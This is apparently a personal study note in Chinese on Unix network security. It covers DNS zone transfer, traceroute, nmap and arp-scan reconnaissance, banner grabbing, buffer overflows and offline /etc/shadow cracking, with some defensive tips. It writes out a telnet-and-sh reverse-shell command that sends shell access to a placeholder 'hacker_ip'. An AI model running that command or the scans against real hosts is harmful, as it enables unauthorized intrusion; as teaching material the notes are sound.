 
---
title: "网络安全 Network Security"
date: 2022-01-23T22:54:00.000Z
lastmod: 2022-12-30T07:37:00.000Z
tags: ['network', 'security', 'tools']
draft: false
---



# 踩点


## DNS zone transfer 区域传送

[https://digi.ninja/projects/zonetransferme.php](https://digi.ninja/projects/zonetransferme.php)

[https://www.mi1k7ea.com/2021/04/03/浅析DNS域传送漏洞/](https://www.mi1k7ea.com/2021/04/03/%E6%B5%85%E6%9E%90DNS%E5%9F%9F%E4%BC%A0%E9%80%81%E6%BC%8F%E6%B4%9E/)

```bash
dig axfr @nsztm1.digi.ninja zonetransfer.me
```


## 网络拓扑

```bash
traceroute

# -I: ICMP, -U: UDP, -T: TCP
traceroute -I

# tells the network to route the packet through the specified gateway 
# (most routers have disabled source  routing  for  security reasons).
traceroute -g 10.10.10.5
```


ping 一般默认走 ICMP 协议。

ICMP（Internet Control Message Protocol，互联网控制协议）是网络层协议，但是它不像 IP 协议和 ARP 协议一样直接传递给数据链路层，而是**先封装成 IP 数据包然后再传递给数据链路层**。所以在 IP 数据包中如果协议类型字段的值是 1 的话，就表示 IP 数据是 ICMP 报文。IP 数据包就是靠这个协议类型字段来区分不同的数据包的。

在 IP 通信中如果某个包因为未知原因没有到达目的地址，那么这个具体的原因就是由 ICMP 负责告知。而 ICMP 协议的类型定义中就清楚的描述了各种报文的含义。


# 扫描

```bash
sudo arp-scan 172.19.50.0/24

# 端口扫描，-Pn 忽略主机发现，避免 ICMP 被屏蔽
nmap -Pn 172.19.50.218
```


### 协议栈指纹分析技术

协议栈指纹分析技术：Stack Fingerprinting，分主动式、被动式。

通过检查协议栈具体实现的细微差异，侦测目标设备的操作系统。

```bash
# 扫描 OS，主动式
sudo nmap -O -Pn 192.168.1.1
```


# 查点


### 服务指纹分析技术

```bash
# 检查某个服务的版本号
nmap -sV 192.168.1.1 -p 22
```


### 漏洞扫描器  
  
-   Nessus  
-   nmap script engine



### 标语抓取技术

连接到远程应用程序，并观察其输出。

```bash
telnet www.example.com 80

# netcat, TCP/IP 瑞士军刀
nc -v www.example.com 80

```



# 攻击 Unix


## 远程访问


### 缓冲区溢出攻击  
  
-   堆栈缓冲区溢出  
-   heap 缓冲区溢出


### 反向通道  
  
1.  在自己的机器上打开 nc 监听器，接受反向的 telnet 连接；  
1.  在目标机器上执行 telnet 命令，建立反向通道。


Example 1：

```bash
# 自己的机器，这个终端接受 sh 命令输入
nc -l -n -v -p 80

# 自己的机器，这个终端会打印 sh 标准输出
nc -l -n -v -p 25

# 目标机器
/bin/telnet hacker_ip 80 | /bin/sh | /bin/telnet hacker_ip 25
```


> Security Tips  
``chmod 750 telnet`` 禁止不必要执行 telnet 的用户去执行它。   



## 本地访问


### 离线口令破解  
  
1.  获取 ``/etc/shadow`` 文件  
      
    1.  MCF 格式：`$算法$salt$hash` ，算法1：MD5，算法2：Blowfish   
1.  计算 ``hash(salt+password)`` ，和 shadow 文件中的值比较，匹配则破解成功


破解程序：John the Ripper，AKA: John, JTR


### 本地缓冲区溢出

一般以 SUID 属性的文件为目标，从而允许攻击者以 root 特权执行命令。

参考：[Linux Tips]({{< relref "linux-tips" >}}) 

> Security Tips  
尽量不要设置 SUID 位。  

